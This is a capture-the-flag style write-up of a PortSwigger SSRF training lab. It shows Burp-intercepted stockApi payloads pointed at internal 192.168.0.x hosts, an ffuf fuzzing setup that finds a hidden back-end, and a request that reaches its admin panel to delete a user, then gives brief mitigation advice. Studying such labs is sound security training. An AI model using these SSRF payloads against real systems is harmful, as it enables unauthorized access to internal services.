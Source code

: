 
<p align="center">
  <img src="./screenshots/ssrf_logo_.png" alt="ssrf_logo"/>
</p>

---

- 🎯 **Target:** SSRF Lab - Basic SSRF against another back-end system
- 🧑‍💻 **Author:** `sonyahack1`
- 📅 **Date:** 22.04.2025
- 📊 **Difficulty:** APPRENTICE
- 📁 **Category:** Web - SSRF (`Non-Blind Internal SSRF`)

---

> The `SSRF` vulnerability is contained in the `check stock` function, which sends a request to the server and then receives a response:

![stock_check](./screenshots/stock_check.png)

![stock_check_answer](./screenshots/stock_check_answer.png)


## 🔍 Request interception

> I intercept the request of this function to the server in `BurpSuite`:

![intercepting_request](./screenshots/intercepting_request.png)

> I use `Hackvertor` extension for easy work with request body in `url encoding`:

```bash

stockApi=<@urlencode>http://192.168.0.1:8080/product/stock/check?productId=1&storeId=1</@urlencode>

```

> From the request body it is clear that the request goes to the server at `192.168.0.1:8080`.

> I try to change the address and send to `192.168.0.2:8080`:

```bash

stockApi=<@urlencode>http://192.168.0.2:8080/product/stock/check?productId=1&storeId=1</@urlencode>

```

> Result:

![server_error](./screenshots/server_error.png)

> Ok. I get an error from the server. It takes too long to manually iterate over each address. I'll automate this process using the `ffuf` tool.

> I'll create a file with a request to iterate over a numeric parameter in an address:

> Example of the `ssrf_fuzz` file:
```bash

POST /product/stock HTTP/2
Host: 0a22006b0428f9448196021b00ae00f6.web-security-academy.net
Cookie: session=rz5CE7YTftsF8xCFmwV78Hr4xuxqSmG5
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a22006b0428f9448196021b00ae00f6.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 96
Origin: https://0a22006b0428f9448196021b00ae00f6.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

stockApi=http%3A%2F%2F192.168.0.FUZZ%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1

```

> Generate a file with a sequence of numbers from 1 to 255 using the `seq` tool:

```bash

seq 1 255 | sudo tee fuzz_nums.txt

```

```bash

cat fuzz_nums.txt
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16

...
...

```

> I run the enumeration via `ffuf`:

```bash

sudo ffuf -request ssrf_fuzz -w fuzz_nums.txt -mc all -ac

```
> Result:

```bash
________________________________________________

1                       [Status: 200, Size: 3, Words: 1, Lines: 1, Duration: 69ms]
234                     [Status: 404, Size: 11, Words: 2, Lines: 1, Duration: 68ms]
:: Progress: [255/255] :: Job [1/1] :: 99 req/sec :: Duration: [0:00:04] :: Errors: 0 ::

```

> request to `192.168.0.234` returned status `404` - `not found`. This means that there is something at this address, but at the current endopoint `/product/stock/check?productId=1`
> the server could not return data. I need to access the admin panel. To do this, I substitute the endpoint `/admin` using a request to `192.168.0.234`:

```bash

stockApi=<@urlencode>http://192.168.0.234:8080/admin</@urlencode>

```
> Result:

![admin_panel](./screenshots/admin_panel.png)

> Sending a request to delete user `Carlos`:

```bash

stockApi=<@urlencode>http://192.168.0.234:8080/admin/delete?username=carlos</@urlencode>

```

> Result:

![solved_lab](./screenshots/solved_lab.png)

---
## 🧠 Conclusion

> This type of web vulnerability occurs when the server does not filter input data when requested by the user. The server allows on its behalf
> to make a request to another resource or internal service and at the same time return the result of the request with all the data that a regular user should not receive.

> You can protect yourself by allowing specific requests (at a specific URL):

```python

if not url.startswith("https://api.example.com/"):
    reject()

```
> You should also block requests from outside to the local IP addresses of the system (`127.0.0.1`, `0.0.0.0`, `192.168.0.0/16` etc).
